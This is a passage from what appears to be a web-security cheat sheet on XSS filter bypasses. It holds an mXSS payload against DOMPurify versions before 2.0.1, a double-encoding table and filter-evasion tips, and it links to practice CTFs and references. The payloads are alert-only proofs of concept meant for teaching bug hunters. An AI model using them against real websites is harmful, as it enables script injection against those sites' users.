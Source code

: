 mXSS payload that bypasses one of the most commonly used filters:\
[DOMPurify <2.0.1](https://research.securitum.com/dompurify-bypass-using-mxss/)

```html
 <svg></p><style><a id="</style><img src=1 onerror=alert(1)>">
 <svg><p><style><a id="</style><img src=1 onerror=alert(1)>"></p></svg>
```

**Double encoding**

Simple enough, sometimes an application will perform XSS filtering on a string before it’s decoded once more, which leaves it open by filter bypasses. It’s pretty rare, but some bug hunters I know swear by it so I’m including it for reference.

| Char | Double encoded |
| ---- | -------------- |
| <    | %253C          |
| >    | %253E          |
| (    | %2528          |
| )    | %2529          |
| "    | %2522          |
| '    | %2527          |

**General tips**

* VaRy ThE capItaliZatiOn. Sometimes a regex or other custom-made filters do case sensitive matching.
* Practice your XSS skills on CTFs like [Pwnfunction’s XSS CTF](https://xss.pwnfunction.com/) . You will likely learn techniques you did not know existed.

#### Resources <a href="#resources" id="resources"></a>

Great other resources:

[Fantastic collection of somewhat old XSS stuff](https://www.vulnerability-lab.com/resources/documents/531.txt)\
[Portswigger XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)\
[Portswigger XSS through Frameworks](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)\
[https://netsec.expert/posts/](https://netsec.expert/posts/)
